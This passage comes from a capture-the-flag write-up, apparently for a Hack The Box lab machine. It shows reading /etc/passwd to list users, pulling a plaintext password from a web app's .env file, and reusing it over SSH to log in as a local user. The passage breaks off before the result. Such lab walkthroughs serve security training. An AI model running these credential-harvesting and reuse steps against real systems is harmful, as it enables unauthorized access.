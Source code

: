 
## ➡️🧍 Horizontal Privilege Escalation

> Checking local users in the system:

```bash

www-data@2million:~/html$ cat /etc/passwd | grep -i bash | cut -d: -f1

root
www-data
admin

```

> Ok. I see the user `admin`. I need to access it.

> In the web directory `/var/www/html` there is an environment file `.env` which contains the password for the user `admin`

```bash

www-data@2million:~/html$ ls -lah
total 56K
drwxr-xr-x 10 root root 4.0K May 25 19:20 .
drwxr-xr-x  3 root root 4.0K Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1.3K Jun  2  2023 Database.php
-rw-r--r--  1 root root 2.8K Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4.0K May 25 19:20 VPN
drwxr-xr-x  2 root root 4.0K Jun  6  2023 assets
drwxr-xr-x  2 root root 4.0K Jun  6  2023 controllers
drwxr-xr-x  5 root root 4.0K Jun  6  2023 css
drwxr-xr-x  2 root root 4.0K Jun  6  2023 fonts
drwxr-xr-x  2 root root 4.0K Jun  6  2023 images
-rw-r--r--  1 root root 2.7K Jun  2  2023 index.php
drwxr-xr-x  3 root root 4.0K Jun  6  2023 js
drwxr-xr-x  2 root root 4.0K Jun  6  2023 views

www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
www-data@2million:~/html$

```
> Password for local user `admin` - `SuperDuperPass123`. Using these credentials, I connect via `ssh` and take the **first flag**:

```bash

ssh admin@10.10.11.221

```
> Result:

